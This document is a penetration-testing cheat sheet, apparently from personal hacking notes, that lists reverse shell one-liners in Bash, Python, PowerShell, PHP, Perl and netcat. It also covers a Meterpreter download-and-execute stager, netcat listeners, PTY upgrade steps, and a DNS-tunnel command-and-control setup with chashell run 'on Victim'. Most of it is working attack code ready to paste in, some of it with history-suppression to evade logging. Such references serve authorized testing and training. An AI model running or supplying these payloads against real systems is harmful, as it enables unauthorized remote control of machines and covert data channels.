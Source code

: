 # Reverse Shells

* [https://securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/](https://securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/)

## Bash

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f
```

## Python

### IPv4

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()
```

### IPv6

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()
import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()
```

## PowerShell

System.Net.Sockets.TCPClient:

```text
$client = New-Object System.Net.Sockets.TCPClient("10.10.13.37",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## PHP

```php
<?php echo passthru("/bin/bash -c '/bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'"); ?>
```

## Perl

```text
use Socket;$i="<LHOST>";$p=<LPORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

## Netcat

```text
$ {nc.tradentional|nc|ncat|netcat} <LHOST> <LPORT> {-e|-c} /bin/bash
```

## Meterpreter

### unicorn

* [https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)

```text
$ python3 unicorn.py windows/meterpreter/reverse_https 10.10.13.37 443
$ sudo msfconsole -qr unicorn.rc
PS > IEX(New-Object Net.WebClient).DownloadString('powershell_attack.txt')
```

## Listeners

```text
$ {nc.tradentional|nc|ncat|netcat} [-6] -lvnp <LPORT>
```

### PowerShell

* [https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)
* [https://gist.github.com/staaldraad/8473da7f2dfed28b2216b15ca6ebad11](https://gist.github.com/staaldraad/8473da7f2dfed28b2216b15ca6ebad11)

## Upgrade to PTY

* [https://forum.hackthebox.eu/discussion/comment/22312\#Comment\_22312](https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312)
* [https://xakep.ru/2019/07/16/mischief/\#toc05.1](https://xakep.ru/2019/07/16/mischief/#toc05.1)
* [https://securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/](https://securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/)

```text
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Or
$ script -q /dev/null sh

user@remote:$ ^Z
(background)

root@kali:$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
(get ROWS and COLS)

root@kali:$ stty raw -echo; fg

(opt) user@remote:$ reset

user@remote:$ stty rows ${ROWS} cols ${COLS}

user@remote:$ export TERM=xterm
(or xterm-color or xterm-256color)

(opt) user@remote:$ exec /bin/bash [-l]
```

## Transport over DNS

* [https://xakep.ru/2018/09/07/dns-tunneling/](https://xakep.ru/2018/09/07/dns-tunneling/)
* [https://habr.com/ru/post/345056/](https://habr.com/ru/post/345056/)
* [https://habr.com/ru/company/group-ib/blog/496712/](https://habr.com/ru/company/group-ib/blog/496712/)

### chashell

* [https://github.com/sysdream/chashell](https://github.com/sysdream/chashell)

Buy and configure DNS \(e.g., `c2cdomain.net`\):

```text
A * -> <IP>
A @ -> <IP>
A chashell -> <IP>
NS c -> chashell.c2cdomain.net
```

Get dependencies:

```text
$ export GOPATH=/home/snovvcrash/code/go
$ export PATH=$GOPATH:$GOPATH/bin:$PATH
$ go get -v -u github.com/golang/dep/cmd/dep
$ go get github.com/mitchellh/gox
$ cd $GOPATH/src/github.com/golang/dep
$ go install ./...
```

Clone chashell into `$GOPATH/src` \(otherwise, `dep` will error out\):

```text
$ git clone https://github.com/sysdream/chashell $GOPATH/src/chashell
$ cd $GOPATH/src/chashell
```

Build binaries:

```text
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.c2cdomain.net
$ make build-all OSARCH="linux/amd64"
```

Run server on Attacker:

```text
$ cd release/
$ sudo systemctl stop systemd-resolved
$ sudo ./chaserv_linux_amd64
```

Run client on Victim:

```text
$ ./chashell_linux_amd64
```

## Helpers

### pwncat

* [https://securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/](https://securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/)
* [https://github.com/cytopia/pwncat](https://github.com/cytopia/pwncat)

### VbRev

* [https://github.com/VbScrub/VbRev](https://github.com/VbScrub/VbRev)

### xc

* [https://github.com/xct/xc](https://github.com/xct/xc)

Listen:

```text
$ rlwrap ./xc -l -p 443
```

Launch:

```text
PS > Start-Process -NoNewWindow .\xc.exe "10.10.13.38 443"
```

### Payload Generators

* [http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)
* [https://www.revshells.com/](https://www.revshells.com/)

#### ShellPop

* [https://github.com/0x00-0x00/ShellPop](https://github.com/0x00-0x00/ShellPop)

Bash reverse TCP:

```text
$ shellpop -H 10.10.13.37 -P 9001 --reverse --number 8 --base64
```

